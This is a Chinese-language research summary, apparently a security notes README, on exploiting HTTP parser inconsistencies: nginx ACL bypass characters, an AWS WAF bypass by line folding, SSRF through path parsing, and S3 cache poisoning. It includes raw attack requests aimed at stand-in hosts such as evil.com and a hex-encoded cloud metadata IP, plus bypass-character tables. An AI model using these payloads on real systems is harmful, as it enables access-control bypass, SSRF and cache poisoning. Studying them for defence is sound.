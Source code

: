 # Exploiting HTTP Parsers Inconsistencies

## 分析

这篇文章主要讲的就是利用HTTP解析器的不一致性来实行攻击，涉及到Web服务器、反向代理服务器、缓存服务器、AWS WAF等等。



绕过nginx acl利用的是不同语言中对trim的实现，例如对于`/nginx%ao0`，nginx的trim不会去掉`%a0`但是node.js中trim会去掉`%a0`。防止这种攻击就是nginx 的acl不用`=`，用`~`：

```conf
location ~* ^/admin {
    deny all;
}
```





绕过 AWS ACL WAF则是要利用`line folding`技术：行折叠是指使用字符`\x09`和`\x20`将长的头部值分割成多行以提高可读性的做法。但是AWS WAF并不能识别这个技术，例如下面的图，将`\x09`那一行解释成了一个http头部，导致绕过。AWS在2022已经修复这个漏洞。

![img](README.assets/440f51b0-18bb-451c-92da-3428000cd7f0.jpeg)

在**不存在反向代理**的情况下，如果代码写的有问题且相应的服务器的路径解析可能存在错误，造成SSRF。

例如python可以解析`@/`：

```http
GET @/ HTTP/1.1
Host: target.com
Connection: close

```

如果代码的`base url`最后面没有`/`，且直接将请求的path拼接上去，则可能造成ssrf：

```python
from flask import Flask
from requests import get

app = Flask('__main__')
SITE_NAME = 'https://google.com/'

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def proxy(path):
  return get(f'{SITE_NAME}{path}').content

app.run(host='0.0.0.0', port=8080)

```



SpringBoot的绕过比较有意思，是这样：`;@evil.com/url`，利用的是SpringBoot的Matrix parameters，且Spring支持Matrix parameters的分割字符串`;`可以在第一个`/`前面，根据我的理解就是虽然Spring解析的路径还是第一个`/`起的那部分，即`/url`，但`request.getRequestURI();`仍然可以获取到`;@evil.com/url`。





最后提到了关于aws s3的HTTP Desync Cache Poisoning Attacks。请求一个aws s3存储桶时，AWS 基础设施会检查 Host 头以确定目标存储桶。如果请求的domain和请求的host头部不一样，aws将忽略domain仅获取host中指定的存储桶，这种做法在云服务中很常见，它帮助服务提供商在后端灵活地管理和路由请求，而不必严格依赖于URL中的域名。

但是对于缓存服务器来说，他可能是按`path`作为key，也可以会利用`host`作为`key`。而aws s3解析host时只用第一个host且会忽略：`\x1f`, `\x1d`, `\x0c`, `\x1e`, `\x1c`, `\x0b`。因此对于下面的情况：

```http
GET / HTTP/1.1
[\x1d]Host: evilbucket.com
Host: example.bucket.com
Connection: close

```

缓存服务器首先将`[\x1d]Host: evilbucket.com`作为key，但是因为有`\x1d`，会认为这个host是无效，的从而缓存`example.bucket.com`，而aws s3会去掉`\x1d`，从而认为访问的是`evilbucket.com`，返回的是`evilbucket.com`的内容，导致了缓存服务器的`example.bucket.com`键缓存了`evilbucket.com`的内容，导致缓存投毒。

## EXP

### 绕过nginx acl

| Nginx Version | **Node.js Bypass Characters** |
| ------------- | ----------------------------- |
| 1.22.0        | `\xA0`                        |
| 1.21.6        | `\xA0`                        |
| 1.20.2        | `\xA0`, `\x09`, `\x0C`        |
| 1.18.0        | `\xA0`, `\x09`, `\x0C`        |
| 1.16.1        | `\xA0`, `\x09`, `\x0C`        |



| Nginx Version | **Flask Bypass Characters**                                  |
| ------------- | ------------------------------------------------------------ |
| 1.22.0        | `\x85`, `\xA0`                                               |
| 1.21.6        | `\x85`, `\xA0`                                               |
| 1.20.2        | `\x85`, `\xA0`, `\x1F`, `\x1E`, `\x1D`, `\x1C`, `\x0C`, `\x0B` |
| 1.18.0        | `\x85`, `\xA0`, `\x1F`, `\x1E`, `\x1D`, `\x1C`, `\x0C`, `\x0B` |
| 1.16.1        | `\x85`, `\xA0`, `\x1F`, `\x1E`, `\x1D`, `\x1C`, `\x0C`, `\x0B` |





| Nginx Version | **Spring Boot Bypass Characters** |
| ------------- | --------------------------------- |
| 1.22.0        | `;`                               |
| 1.21.6        | `;`                               |
| 1.20.2        | `\x09`, `;`                       |
| 1.18.0        | `\x09`, `;`                       |
| 1.16.1        | `\x09`, `;`                       |



对于PHP-FPM：`/admin.php/index.php`。当两个.php文件位于HTTP请求的相同路径名中时，PHP将匹配第一个文件，忽略斜杠之后的所有内容。这种技术只有在第二个PHP文件（在此例中为index.php）存在于服务器中时才有效。









### 绕过 AWS ACL WAF

利用line folding技术：

![img](README.assets/440f51b0-18bb-451c-92da-3428000cd7f0.jpeg)

虽然AWS已修复，但是或许可以应用在其他的场景中。

### 路径解析错误导致服务器端请求伪造

python:

```http
GET @evildomain.com/ HTTP/1.1
Host: target.com
Connection: close

```

SpringBoot：

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close

```

PHP内置Web服务器（基本遇不到），IP用十六进制形式（因为对`.`有过滤）：

```http
GET *@0xa9fea9fe/ HTTP/1.1
Host: target.com
Connection: close

```

### aws s3缓存投毒

```http
GET / HTTP/1.1
[\x1d]Host: evilbucket.com
Host: example.bucket.com
Connection: close


```



## References

[(Research) Exploiting HTTP Parsers Inconsistencies](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies)